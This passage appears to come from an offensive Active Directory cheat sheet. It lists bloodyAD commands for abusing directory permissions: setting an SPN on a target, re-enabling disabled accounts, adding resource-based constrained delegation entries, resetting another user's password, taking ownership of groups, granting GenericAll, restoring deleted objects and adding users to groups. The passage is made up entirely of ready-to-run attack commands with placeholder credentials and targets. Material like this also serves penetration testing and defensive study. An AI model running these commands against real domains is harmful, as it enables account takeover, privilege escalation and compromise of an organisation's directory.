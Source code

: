 ###### Set SPN

```sh
bloodyAD --host $dc -d $domain -u $username -p $password set object $target servicePrincipalName -v 'domain/meow'
```

###### Enable Disabled Account

```sh
bloodyAD --host $dc -d $domain -u $username -p $password remove uac $target_username -f ACCOUNTDISABLE
```

###### Add RBCD Entry

```sh
bloodyAD --host $dc -d $domain -u $username -p $password add rbcd 'DELEGATE_TO$' 'DELEGATE_FROM$'
```

###### Reset Password

```sh
bloodyAD --host $dc -d $domain -u $username -p $password set password $target_username $new_password
```

##### WriteOwner

###### Take Ownership

```sh
bloodyAD --host $dc -d $domain -u $username -p $password set owner $target_group $target_username
```

##### WriteDACL

###### Grant GenericAll

```sh
bloodyAD --host $dc -d $domain -u $username -p $password add genericAll $DN $target_username
```

###### Add RBCD Entry

```sh
bloodyAD --host $dc -d $domain -u $username -p $password add rbcd 'DELEGATE_TO$' 'DELEGATE_FROM$'
```

###### Restore Deleted Object

```sh
bloodyAD --host $dc -d $domain -u $username -p $password -k set restore $user_to_restore
```

##### AddMember

###### Add User to Group

```sh
bloodyAD --host $dc -d $domain -u $username -p $password add groupMember $group_name $member_to_add
```
